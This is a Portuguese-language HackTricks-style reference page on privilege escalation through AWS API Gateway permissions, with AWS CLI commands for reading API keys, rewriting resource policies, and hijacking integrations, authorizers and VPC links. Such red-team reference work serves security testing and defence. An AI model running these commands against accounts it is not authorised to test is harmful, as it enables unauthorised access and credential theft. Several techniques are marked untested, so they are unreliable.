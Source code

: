 # AWS - Escalação de Privilégios no Apigateway

<details>

<summary><strong>Aprenda hacking na AWS de zero a herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Apigateway

Para mais informações, consulte:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Com essa permissão, você pode gerar chaves de API das APIs configuradas (por região).
```bash
aws --region <region> apigateway create-api-key
```
**Impacto Potencial:** Não é possível realizar escalonamento de privilégios com essa técnica, mas você pode obter acesso a informações sensíveis.

### `apigateway:GET`

Com essa permissão, você pode obter as chaves de API geradas das APIs configuradas (por região).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Impacto Potencial:** Não é possível elevar privilégios com essa técnica, mas você pode obter acesso a informações sensíveis.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Com essas permissões, é possível modificar a política de recursos de uma API para conceder a si mesmo acesso para chamá-la e abusar do acesso potencial que o gateway da API possa ter (como invocar uma lambda vulnerável).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Impacto Potencial:** Normalmente, não será possível realizar escalonamento de privilégios diretamente com essa técnica, mas pode-se obter acesso a informações sensíveis.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Necessita de teste
{% endhint %}

Um atacante com as permissões `apigateway:PutIntegration`, `apigateway:CreateDeployment` e `iam:PassRole` pode **adicionar uma nova integração a uma API Gateway REST API existente com uma função Lambda que tenha uma função IAM anexada**. O atacante pode então **acionar a função Lambda para executar código arbitrário e potencialmente obter acesso aos recursos associados à função IAM**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impacto Potencial**: Acesso a recursos associados à função IAM da função Lambda.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Necessita de teste
{% endhint %}

Um atacante com as permissões `apigateway:UpdateAuthorizer` e `apigateway:CreateDeployment` pode **modificar um autorizador existente do API Gateway** para contornar verificações de segurança ou executar código arbitrário quando solicitações de API são feitas.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impacto Potencial**: Contornar verificações de segurança, acesso não autorizado a recursos da API.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Necessita de teste
{% endhint %}

Um atacante com a permissão `apigateway:UpdateVpcLink` pode **modificar um VPC Link existente para apontar para um Balanceador de Carga de Rede diferente, potencialmente redirecionando o tráfego da API privada para recursos não autorizados ou maliciosos**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Impacto Potencial**: Acesso não autorizado a recursos de API privados, interceptação ou interrupção do tráfego da API.

<details>

<summary><strong>Aprenda hacking na AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
